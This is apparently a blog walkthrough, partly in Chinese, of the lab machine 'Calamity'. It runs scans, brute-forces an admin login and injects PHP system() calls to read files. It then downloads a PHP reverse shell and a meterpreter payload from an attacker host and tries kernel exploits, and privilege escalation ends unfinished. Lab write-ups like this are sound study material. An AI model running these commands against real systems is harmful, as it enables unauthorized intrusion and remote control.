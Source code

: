 ```yaml
---
title: Calamity（web rce）
categories:
- training
tags:
- training
---
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## web scan

```
gobuster -u http://10.10.10.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/uploads (Status: 301)

---
curl -X OPTIONS http://10.10.10.27 -I
HTTP/1.1 200 OK
Date: Wed, 20 Mar 2019 02:36:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Allow: OPTIONS,GET,HEAD,POST
Content-Length: 0
Content-Type: text/html
---
curl -X PUT http://10.10.10.27/uploads/1.html -d "<?php system($_GET['cmd']) ?>" <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>405 Method Not Allowed</title>
</head><body>
<h1>Method Not Allowed</h1>
<p>The requested method PUT is not allowed for the URL /uploads/1.html.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.27 Port 80</address>
</body></html>
---
nikto -h 10.10.10.27 


+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-29786: /admin.php?en_log_id=0&action=config: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-29786: /admin.php?en_log_id=0&action=users: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.
+ OSVDB-3092: /admin.php: This might be interesting...
```

## find exp

searchsploit EasyNews

http://10.10.10.27/admin.php

## find password

burp + sqlmap

```
POST /admin.php HTTP/1.1

Host: 10.10.10.27

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Referer: http://10.10.10.27/admin.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 15

Connection: close

Upgrade-Insecure-Requests: 1

user=00&pass=00
```

sqlmap -r 1.req

sqlmap -r 1.req --risk 3 --level 5

6. 

hydra

```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -P /usr/share/wordlists/500-worst-passwords.txt -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```

7. 

wapiti -u http://10.10.10.27/admin.php

not found any vul

8. 

curl -X POST http://10.10.10.27/admin.php -d "<?php system($_GET['cmd']) ?>" 

```
<html><body>

<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
										<!-- password is:skoupidotenekes-->
</form> 
</body></html>
```

准备尝试post能否上传一句话，然后意外发现，源代码中藏着密码。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/3.PNG)
发现图片中用户名和密码颠倒了，burp抓包...em，应该是开发错误。

9. 

```
cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"

hydra -L cirt-default-usernames.txt -p skoupidotenekes -f 10.10.10.27  http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-21/4.PNG)

10. http://10.10.10.27/admin.php?html=

```
html=<?php system(ls) ?> admin.php bg.png index.html leet.png uploads 
html=<?php system(whoami) ?>   www-data 
html=<?php system("cat /etc/passwd") ?>
html=<?php system("cat /home/xalvas/user.txt") ?>

/bin/nc /bin/nc.openbsd     nc不支持-e，于是上传php shell。
ls -al /tmp          tmp目录可写不可读
d-wx-wx-wx  10 root root  4096 Mar 19 23:39 tmp

pwd /var/www/html

/usr/bin/wget http://10.10.14.7/php-reverse-shell.php -P /tmp

html=<?php system("ls -al /tmp/shell.php") ?>
chmod a+x /tmp/php-reverse-shell.php
html=<?php system("php /tmp/php-reverse-shell.php") ?>
获得一个shell
```

11. info

Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 i686 i686 GNU/Linux

whereis gcc

gcc: /usr/bin/gcc /usr/lib/gcc /usr/share/man/man1/gcc.1.gz

准备上传msf类型exp。

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=6678 -f elf -o payload.elf

本地执行：
handler -H 10.10.14.7 -P 6678 -p linux/x86/meterpreter/reverse_tcp
python -m SimpleHTTPServer

远程shell执行：
wget http://10.10.14.7:8000/payload.elf -P /tmp
chmod a+x /tmp/payload.elf
./tmp/payload.elf

[*] Meterpreter session 5 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 12:11:48 +0800

成功连接，但是一旦连接就会断开
```

12. searchsploit linux 4.4.0

```
wget http://10.10.14.7:8000/43418.c -P /tmp
chmod a+x /tmp/43418.c
gcc 43418.c -o pwn
编译失败

wget http://10.10.14.7:8000/pwn -P /tmp
chmod a+x /tmp/pwn
./pwn
二进制格式失败，kali本地编译运行为64位。

wget http://10.10.14.7:8000/44298.c -P /tmp
gcc 44298.c -o pwn
44298.c
编译失败
```

13. ps -ef | grep root

```
root      1049     1  0 Mar17 ?        00:00:01 /usr/bin/lxcfs /var/lib/lxcfs/
搜索lxcfs，判断主机可能是一个容器。
```

14. cat /home/xalvas/dontforget.txt

```
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```

15. 找到一个可写目录/var/tmp，将LinEnum.sh上传到目标机

```
wget http://10.10.14.7:8000/LinEnum.sh
wget http://10.10.14.7:8000/linux-exploit-suggester.sh
chmod a+x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

wget http://10.10.14.7:8000/40839
gcc -pthread 40839 -o dirty -lcrypt
/usr/bin/ld:40839: file format not recognized; treating as linker script
/usr/bin/ld:40839:2: syntax error
collect2: error: ld returned 1 exit status
```

16. 

```
nc -lnvp 7788 < recov.wav
Listening on [0.0.0.0] (family 0, port 7788)
Killed

python -m SimpleHTTPServer
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Killed
```

提权需要绕过进程保护，绕过许多内存保护机制，利用二进制文件。手写exp。

看了wp也看不懂，溜了溜了。


